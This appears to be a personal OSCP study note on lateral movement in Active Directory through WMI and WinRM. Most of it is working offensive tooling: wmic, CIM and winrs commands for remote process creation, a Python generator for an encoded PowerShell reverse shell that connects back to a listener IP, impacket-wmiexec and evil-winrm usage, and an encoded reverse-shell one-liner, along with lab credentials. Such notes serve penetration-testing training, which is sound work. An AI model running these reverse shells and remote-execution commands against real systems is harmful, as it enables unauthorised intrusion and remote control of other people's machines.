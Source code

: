 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/o-active-directory-movement/1-wmi-and-win-rm/","updated":"2024-01-05T11:36:56.939+01:00"}
---
```


--------
# WMI:
### WMI Theory
- Windows Management Instrumentation
- Capable of creating processes via the _Create_ mtehod from the Win32_process class.
- Communicates through Remote Procedure Calls (RPC) on port 135 for remote access, and higher ports (19152-65535) for session data.
- All spawned processes are run in session 0
- If ReturnValue == 0, the process has succeeded!

### WMI Remote Process with WMIC
- WMIC utility was recently deprecated, but is used to create processes on a remote target using an Administrator user.
```
wmic /node:<ip> /user:<adminuser> /password:<password> process call create "<process-to-create>"
```

### WMI Reverse Shell with Powershell
1. Generate reverse shell using python script:
```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.166",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
print(cmd)
````
2. Set up Powershell script and set $username, $password and $command:
```
$username = '<adminuser>';
$password = '<password>';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName <ip> -Credential $credential -SessionOption $Options 
$command = '<generated-reverse-shell-payload>';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

$session = New-Cimsession -ComputerName 172.16.189.10 -Credential $credential -SessionOption $Options 
```
3. Start netcat listener, encode and win!

### WMI Remote Shell with Impacket:
```
sudo /usr/bin/impacket-wmiexec joe:Flowers1@172.16.189.11
```

---------------
# WinRM:
### WinRM Theory
- Alternative method to WMI for remote management
- Microsoft version of the WS-Management protocol
- Exchanges XML messages over HTTP (port 5985) and HTTPS (port 5986)
- Implemented in numerous built-in utilities such as winrs
### WinRM Remote Shell with Evil-WinRM:
``` bash
evil-winrm -i 192.168.X.X -u <user> -p "qwertqwertqwert123\!\!"
```
- Or -H followed by NT-hash!!
### WinRM Remote Code Execution with WinRS
- Only works for domain users who are Administrators or part of "Remote Management Users".
```
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
```

### WinRM Reverse Shell with WinRS
```
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

### WinRM Remote Shell with Powershell:
1. Create session:
```
$username = '<user>';
$password = '<password>';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName <target-ip> -Credential $credential
```
2. Enter session:
```
Enter-PSSession 1
```

